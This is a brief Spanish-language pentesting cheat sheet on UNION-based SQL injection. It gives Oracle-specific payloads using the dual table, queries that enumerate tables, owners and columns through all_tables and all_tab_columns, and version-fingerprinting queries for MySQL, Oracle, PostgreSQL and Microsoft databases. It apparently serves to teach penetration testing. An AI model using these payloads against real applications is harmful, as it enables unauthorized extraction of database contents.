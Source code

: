 ### Oracle
A la hora de hacer reconocimiento o pentesting a bases de datos oracle hay que tener en cuenta que cuando por ejemplo ordenamos con NULL no sirve hacer simplemente `' union select NULL,NULL-- -` ya que en oracle hay que siempre apuntar a una tabla de la siguiente manera `' union select NULL,NULL from dual-- -` dual es una tabla que se encuentra en la mayoría de DB oracle
--> `union select NULL,banner from v$version-- -`

---
Cuando queremos listar las DB debemos de usar la siguiente query
`union select NULL,table_name from all_tables`

En caso de querer ver los owners de todas las tablas
`union select NULL,owner from all_tables`

Ademas podemos acotar y ver las tabla las cuales pertenecen a un owner
`union select NULL,table_name from all_tables where owner='nombredelowner'`

A la hora de dumpear las columnas usamos
`union select NULL,column_name from all_tab_columns`

### MySQL
-->`union select NULL,@@version-- -`

En caso de querer averiguar la version de la DB las querys son:
Database type: **Query**
Microsoft, MySQL: `SELECT @@version`
Oracle `SELECT * FROM v$version`
PostgreSQL `SELECT version()`

